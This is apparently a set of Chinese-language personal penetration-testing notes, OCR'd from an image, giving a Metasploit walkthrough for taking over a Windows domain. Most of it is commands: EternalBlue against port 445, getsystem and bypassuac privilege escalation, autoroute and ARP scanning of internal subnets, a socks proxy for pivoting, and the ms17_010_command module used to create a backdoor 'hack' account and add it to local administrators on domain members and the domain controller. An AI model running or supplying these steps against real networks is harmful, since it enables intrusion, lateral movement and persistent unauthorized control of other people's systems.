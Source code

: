 msf:0.0.0.0 :在不知道对面网络情况和主机情况时用0.0.0.0表示

要渗透其他机子的话，要添加路由:run autoroute -s 192.168.22.0/24(本机)

有445端口直接用永痕之蓝去打



反弹后:
getuid  
getsystem  前提(administeator)

大部分情况下直接使用`getsystem`是很难提权的，会提示管道内存问题、令牌问题、RPCSS变体等阻碍提权，但如果利用bypassuac返回新会话，就非常稳定提权了...实用

arp -a  看ip情况 看看还有几台机器(同一c段)(写脚本ping一下在线主机有那些）

run autoroute -s 192.168.52.0/24  参加路由

扫在线存活主机  run post/windows/gather/arp_scanner rhosts=192.168.52.0/24


https://editor.csdn.net/md/?articleId=11049999

然后可以挂起来了 background


之后就搞域成员和域控，搞之前要挂代理
(
msf提供了3个模块用来做socks代理。
　　auxiliary/server/socks4a
　　use auxiliary/server/socks5
　　use auxiliary/server/socks_unc
　　以auxiliary/server/socks4a为例，查看需要设置的参数。)

use auxiliary/server/socks_proxy

set srvhost 本机ip

set version 4a  将版本改为4a

exploit

挂完代理后要对其他目标进行信息收集

上cs 布丁对比，查看漏洞

use auxiliary/admin/smb/ms17_010_command 用该模板

set rhost 192.168.52.141 设目标ip

set command net user hack 1147229563m. /add  参加帐号密码

set command net localgroup administrators hack /add 加到管理员用户组
set command net localgroup administrators(前面那先exploit再执行这条)

拿下域成员

域控方法也是一样




# 杂: # gobuster  目录扫描
